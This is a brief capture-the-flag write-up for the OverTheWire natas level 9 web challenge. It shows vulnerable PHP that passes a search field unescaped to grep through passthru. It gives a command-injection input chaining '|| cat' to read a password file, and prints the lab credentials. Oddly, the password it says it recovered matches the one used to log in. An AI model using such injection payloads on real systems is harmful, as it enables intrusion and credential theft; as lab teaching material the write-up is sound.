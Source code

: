 # natas level9
natas is CTF with web application.
password will be written `/etc/natas_webpass/natas9`.

## using credential is below.
- User:natas9
- Pass:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

## using tools.
- shell(curl, base64, etc)
- lynx
check web site by lynx.
`lynx http://natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl@natas9.natas.labs.overthewire.org`


followings is message of this page.
~~~
Find words containing: _ Search
Output:
~~~

If we put "f" in textarea and click Search, many words are returned(ex Africa, Food, etc).
And I get source code of this page, we found followings.
~~~
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
   $key = $_REQUEST["needle"];
}
if($key != "") {
   passthru("grep -i $key dictionary.txt");
}
~~~

This application use grep command by passthru. this is os command and this is not escaping.
Maybe I can use os command injection.

I input followings, and got password!
`unexistingfile.xyz || cat /etc/natas_webpass/natas9 `

W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

